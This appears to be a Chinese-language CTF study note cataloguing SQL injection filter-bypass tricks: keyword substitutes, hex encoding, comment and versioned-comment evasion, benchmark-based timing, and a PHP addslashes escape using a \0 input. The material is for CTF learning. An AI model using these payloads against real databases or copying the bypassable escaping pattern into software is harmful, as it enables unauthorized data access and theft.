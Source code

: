 CTF/SQL/绕过

- > ~~反 waifu~~
- # 常见绕过手法
	- `or`和`and`
		- 使用`||`和`&&`代替
	- `information_schema`
		- `sys.schema_auto_increment_columns`
		- `select table_name from mysql.innodb_table_stats where database_name = database();`
		- `mysql.innodb_table_stats`
		- `(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))`
		- [参考](https://www.jianshu.com/p/5aad090eb613)
	- `=`
		- 使用`like`或者`regexp`代替
	- 空格等
		- 使用`()`即`select(flag)from(xxx)`进行代替
			- 版本太低时无法使用
		- 使用`/**/`或者`<>`代替
		- `and 1=1` --> `and!!1=1`
	- `#`和`-`
		- 构造`||'`去闭合最后的`'`
	- `/*`
		- 使用`#\n`
	- `substr`
		- 试试`substring`
		- 可以使用`mid`代替
			- `mid(('ahahaha')from(1)for(3))`
		- 试试`left`和`right`
			- `right(left(TARGET,POSITION),1)`
	- 各类关键词（如`medium`）
		- 可以使用十六进制`0x6d656469756d`代替
		- `SELECT 'a' 'd' 'mi' 'n';`
		- `SELECT CONCAT('a', 'd', 'm', 'i', 'n');`
	- `^`
		- 可使用`$`来从后往前进行匹配
	- `where`
		- 可以使用 having
	- `select`
		- `table`
		- `handler`
	- `if`
		- `select case when (条件) then 代码1 else 代码 2 end`
		- `IFNULL()` ,  `NULLIF()`
	- `union select`
		- `union all select`
		- 注释
			- `union/**/select`
			- 单行注释配合换行
				- `union #\nselect`
			- `union/*!/*!10000select*/`
			-
	- `sleep`
		- `benchmark(10000000,sha(1))`
		- 利用[[regex/ddos]]卡时间，达到和sleep相同的效果
	- 引号
		- `/*!0x2e2a3fe6ada2e8a1802e2a3f*/`
		- ^^`/*!*/`  意为在xxx版本之上执行^^
- # 绕过 addslashes
	- ```php
	  $id=addslashes($id);
	  $path=addslashes($path);
	  
	  $id=str_replace(array("\\0","%00","\\'","'"),"",$id);
	  $path=str_replace(array("\\0","%00","\\'","'"),"",$path);
	  
	  $result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
	  ```
	  
	  使用`\0`可以消除单引号
	  
	  `\0'` -> `\\0'` -> `\'`
	  
	  因此，只要让`$id`为`\0`就可以让`$path`逃逸
	  
	  > 在处理字符串时，mysql 并不是逐字符解析的（因为还要考虑反引号），但是 addslash 加 str_replace 是逐字符解析的，这就造成了漏洞
	  >
	  > 举例：解析`1a\0'`
	  >
	  > `1 a \ 0 '` -> `1 a \\ 0 \' `(本应这么解析) -> `1 a \ \0 \'` -> `1 a \\'` -> `1 a`